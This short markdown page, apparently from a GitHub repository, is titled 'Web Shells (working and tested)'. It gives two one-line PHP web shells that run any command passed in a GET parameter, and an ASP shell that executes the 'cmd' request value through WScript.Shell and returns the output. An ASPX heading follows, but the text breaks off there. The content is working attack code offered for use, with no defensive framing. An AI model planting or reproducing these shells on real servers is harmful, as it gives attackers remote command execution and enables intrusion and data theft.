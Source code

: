 # Web Shells (working and tested)
## PHP
<pre>
&lt;?php system($_GET['cmd']); ?&gt;
&lt;?php system($_GET[1]); ?&gt;
</pre>
## ASP
<pre>
&lt;%
Set rs = CreateObject("WScript.Shell")
'Set cmd = rs.Exec("cmd /c whoami")
Set cmd = rs.Exec("cmd /c " & request("cmd"))
o = cmd.StdOut.Readall()
Response.write(o)
%&gt;
</pre>
## ASPX
...
